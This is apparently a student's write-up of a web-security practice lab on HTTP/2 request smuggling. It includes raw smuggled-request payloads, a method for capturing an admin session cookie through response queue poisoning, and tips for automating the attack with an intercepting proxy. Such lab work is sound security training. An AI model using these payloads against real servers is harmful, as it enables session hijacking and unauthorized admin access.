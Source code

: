 # Practitioner Lab 136: Response queue poisoning via H2.TE request smuggling

---

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

![Untitled](Practitioner%20Lab%20136%20Response%20queue%20poisoning%20via%20%2058b9882dc7a544d4abc46850e757622d/Untitled.png)

![Untitled](Practitioner%20Lab%20136%20Response%20queue%20poisoning%20via%20%2058b9882dc7a544d4abc46850e757622d/Untitled%201.png)

When I sent this request twice and it did not send me too a 404 meaning that it is probably a TE

when I sent a normal smuggling test request through http 1 it gave me the following error saying that I couldnt use both transfer encoding as well as content length.

![Untitled](Practitioner%20Lab%20136%20Response%20queue%20poisoning%20via%20%2058b9882dc7a544d4abc46850e757622d/Untitled%202.png)

this gave me a 404 meaning that the request was smuggled showing me that I managed to get do the poc sucessfully and telling me that the server is using TE

![Untitled](Practitioner%20Lab%20136%20Response%20queue%20poisoning%20via%20%2058b9882dc7a544d4abc46850e757622d/Untitled%203.png)

```
POST /my-account HTTP/2
Host: 0a8b00630439d57a829d2edb0039005a.web-security-academy.net
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /try HTTP/1.1
Host: 0a8b00630439d57a829d2edb0039005a.web-security-academy.net

```

After playing around with it I managed to capture a request from the admin. 

![Untitled](Practitioner%20Lab%20136%20Response%20queue%20poisoning%20via%20%2058b9882dc7a544d4abc46850e757622d/Untitled%204.png)

After adding that session cookie I was able to access the admin page. 

![Untitled](Practitioner%20Lab%20136%20Response%20queue%20poisoning%20via%20%2058b9882dc7a544d4abc46850e757622d/Untitled%205.png)

This solved the lab. 

Another solution is to do the following:

```
POST /x HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
```

This will simply give you a 404 response unless its one from another user. 

To automate this use the above payload, send it to intruder, Make sure that the update content length is off in intruder. And play with the resource pool so that it only sends one concurrent request with a delay of around 800.